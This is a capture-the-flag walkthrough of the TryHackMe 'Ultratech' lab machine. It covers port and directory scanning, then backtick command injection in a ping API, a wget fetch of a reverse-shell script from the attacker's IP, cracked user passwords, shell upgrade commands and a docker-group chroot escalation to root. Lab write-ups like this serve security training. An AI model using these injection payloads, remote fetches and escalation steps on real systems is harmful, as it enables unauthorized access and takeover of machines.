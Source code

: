 ```yaml
---
tags: ping, api, docker
---
```

# THM: Ultratech

***Overview**: Ultratech is a THM machine rated as medium. This machine exploits the ping utility being using on a web application via an API to gain foothold. It also exploit the we are running docker privileges as root to escalate privileges on the machine. I hope you enjoy the read.*


## Scanning and Reconnaissance 
- We start by identifying all the open ports quickly using Masscan
```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ sudo masscan -p1-65535 10.10.186.176 --rate=1000 -e tun0 > ultratech
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-05-22 14:05:15 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
                                                                                                                                                                       
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ cat ultratech
Discovered open port 8081/tcp on 10.10.186.176                                 
Discovered open port 21/tcp on 10.10.186.176                                   
Discovered open port 31331/tcp on 10.10.186.176                                
Discovered open port 22/tcp on 10.10.186.176         
```
- then we go ahead to identify the services running on the ports using Nmap
```shell
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -A -p31331 10.10.186.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 10:11 EDT
Nmap scan report for 10.10.186.176
Host is up (0.35s latency).

PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.19 seconds
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -A 10.10.186.176        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 14:00 EDT
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.52% done; ETC: 14:00 (0:00:00 remaining)
Nmap scan report for 10.10.186.176
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.97 seconds
```

- we open port 8081 and gain little information 
![](assets/Ultratech_assets/Pasted%20image%2020230522151036.png)
- when we do a directory scan on that port using FFUF, we identify two (2) paths, which are auth and ping `ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.186.176:8081/FUZZ -e .php,.txt`
![](assets/Ultratech_assets/Pasted%20image%2020230522151602.png)
- Going to the auth path, we see that we have to identify a login and a password
![](assets/Ultratech_assets/Pasted%20image%2020230522151055.png)
- we then go ahead to scan the next port which is port 331331 for open directories using `ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.186.176:31331/FUZZ -e .php,.txt` and we identify the robots.txt on the particular port
![](assets/Ultratech_assets/Pasted%20image%2020230522175932.png)
- we also go ahead to view the port and we can see that the main site is running on this port
![](assets/Ultratech_assets/Pasted%20image%2020230522151814.png)
- when inspecting this site, we discover the JS file, api.js, then when we open it we notice sth interesting, which is is what seems like the ping utility is being used
![](assets/Ultratech_assets/Pasted%20image%2020230522175851.png)
- view the robots.txt file in this port we discover this path /utech_sitemap.txt
![](assets/Ultratech_assets/Pasted%20image%2020230522151835.png)
- then going to that path, we can see 3 other paths
![](assets/Ultratech_assets/Pasted%20image%2020230522151912.png)
- we can view each of the paths
![](assets/Ultratech_assets/Pasted%20image%2020230522152028.png)
- looking at the partners path, we can see a login page
![](assets/Ultratech_assets/Pasted%20image%2020230522152105.png)
- when we keep looking through the web page, we also identify some sensitive information about the possible usernames of the owners of the web application, which are r00t, P4c0 and Sq4l
![](assets/Ultratech_assets/Pasted%20image%2020230522152416.png)
- we also discover the contactus was the email ultratech@yopmail.com
- we also saw this comments in the page source as well, lol!!

![](assets/Ultratech_assets/Pasted%20image%2020230522152847.png)
- if we try invalid credentials on the partners page, we can see that it goes to the auth path on the 8081 port and shows us invalid credentials since we are using invalid credentials
![](assets/Ultratech_assets/Pasted%20image%2020230522153011.png)
- if we try to test that ping functionality we saw earlier in the api.js source file, we can that it actually works
## Exploitation
- we also specify a count for the ping command and see that it also runs, so what if we can find a way to exploit an RCE using this functionality??
![](assets/Ultratech_assets/Pasted%20image%2020230522161633.png)
- after trying multiple characters like `|` and `$`, it seemed like characters like those where being filtered
- But then when we tried the backticks character, we saw that our command got executed, JACKPOT!!!! and we also found what looked like a database
![](assets/Ultratech_assets/Pasted%20image%2020230522162922.png)
- So using the URL below, we were able to execute the `whoami` command, and saw that we are the `www` user 

```
http://10.10.186.176:8081/ping?ip=-c+1+10.10.186.176+`whoami`
```

![](assets/Ultratech_assets/Pasted%20image%2020230522163008.png)

- we also try to view that sqlite database and we discover what looks like the hashes for r00t and the admin user
![](assets/Ultratech_assets/Pasted%20image%2020230522163447.png)
- getting the hash f357a0c52799563c7c7b76c1e7543a32 for r00t and 0d0ea5111e3c1def594c1684e3b9be84 for admin, we went ahead to crack those MD5 hashes
-  we get the password for r00t as n100906

![](assets/Ultratech_assets/Pasted%20image%2020230522163928.png)
- when we attempt to login, we see that we have gotten access and we also get a message
![](assets/Ultratech_assets/Pasted%20image%2020230522165052.png)
- We also get the password for admin is mrsheafy 
![](assets/Ultratech_assets/Pasted%20image%2020230522165144.png)
- when we login with this credential, we also get the same information and the same access
## Foothold
- so we want to get a reverse shell using this URL
```
http://10.10.186.176:8081/ping?ip=-c+1+10.10.186.176+`wget+http://10.8.80.123/script.sh`
```
- we `chmod 777 script.sh` for the script and then execute it 
![](assets/Ultratech_assets/Pasted%20image%2020230522172218.png)
- in our netcat listener, we can see that we have a shell
![](assets/Ultratech_assets/Pasted%20image%2020230522172231.png)
- we can view the /etc/passwd file
![](assets/Ultratech_assets/Pasted%20image%2020230522172332.png)
- we can also see the users the the home directory
![](assets/Ultratech_assets/Pasted%20image%2020230522172532.png)
- we can run the `netstat -tulnp` command to view if there are any private ports in addition to the open ports we found using nmap
![](assets/Ultratech_assets/Pasted%20image%2020230522172756.png)

- we also run the following commands to get a more interactive shell
	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- ctrl + z
	- `stty raw -echo; fg`
	- `reset`
	- `xterm`
- But since we see that r00t user exists in the system, we can attempt to use the credentials we found to gain ssh access, since we saw that is running on the sytem
![](assets/Ultratech_assets/Pasted%20image%2020230522173314.png)
-  so we try SSH with r00t and n100906 and BOOM, we have access
![](assets/Ultratech_assets/Pasted%20image%2020230522180819.png)

## Privilege Escalation
- we can run our linpeas script and see the ids of the users in the system, we cans see that our r00t user has docker access

![](assets/Ultratech_assets/Pasted%20image%2020230522174545.png)
- we can also verify that 

![](assets/Ultratech_assets/Pasted%20image%2020230522190525.png)
- we can utilize our gtfobins to see how we can escalate privileges using this
![](assets/Ultratech_assets/Pasted%20image%2020230522184855.png)
- we can then run the command but replace alpine with root `docker run -v /:/mnt --rm -it bash chroot /mnt sh` and boom, we are root
![](assets/Ultratech_assets/Pasted%20image%2020230522184920.png)
- we can view the files in the root directory and see we have a private.txt and see some text
![](assets/Ultratech_assets/Pasted%20image%2020230522185000.png)
- we also see the .ssh directory, so we then view the private key file, and we are done with this challenge
![](assets/Ultratech_assets/Pasted%20image%2020230522185116.png)

Thank you for reading, see you next time!!
Much love.

[Docker group privilege escalation - franks.io - Blog](https://franks.io/posts/docker-group-privilege-escalation/)
